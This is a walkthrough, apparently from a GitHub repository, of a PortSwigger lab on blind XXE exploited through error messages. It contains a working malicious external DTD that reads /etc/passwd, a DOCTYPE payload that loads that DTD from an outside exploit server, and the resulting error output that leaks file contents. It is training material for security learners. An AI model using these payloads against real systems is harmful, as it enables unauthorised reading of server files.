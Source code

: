 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b76738eb-313f-45c0-a38a-9d4c51878a6a)


## Overview :

 An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

Invoking the malicious external DTD in a request will result in an error message in the response like the following:

```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Clicking on checkstock , browser sends a request as follows.

```xml
POST /product/stock HTTP/2
Host: 0af30033047260258367614100b000eb.web-security-academy.net
Cookie: session=TnnpQlYQo6aNbZz19PpZgs3EumVLAIfl
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af30033047260258367614100b000eb.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0af30033047260258367614100b000eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to trigger an error message & retreive the contents of `/etc/passwd` file in the application response, we need to perform few steps.

#### Steps -

1. Make a request which has a DOCTYPE containing a payload which will fetch the contents of the malicious DTD hosted at our exploit server. 
2. The exploit server will retreive the contents of `/etc/passwd` and it will try to send the exfiltrated data back to the **non-existent server**

> Since the server address is non existent, it will throw an error. So we get both error and the contents of /etc/passwd file in the response.


#### Craft a payload -

In the request to check the stock, we can insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0ac1007c04b760e583b56076015d00b1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
> NOTE - We intentionally give the name/location of the file as **non-existent** to induce an error.


When we send the request , we get the error message along with the contents of /etc/passwd.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9d72e719-b4b0-430c-9df7-daf4d3958171)

Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/523460f4-1ad3-42aa-ab1c-0d90babbb31f)


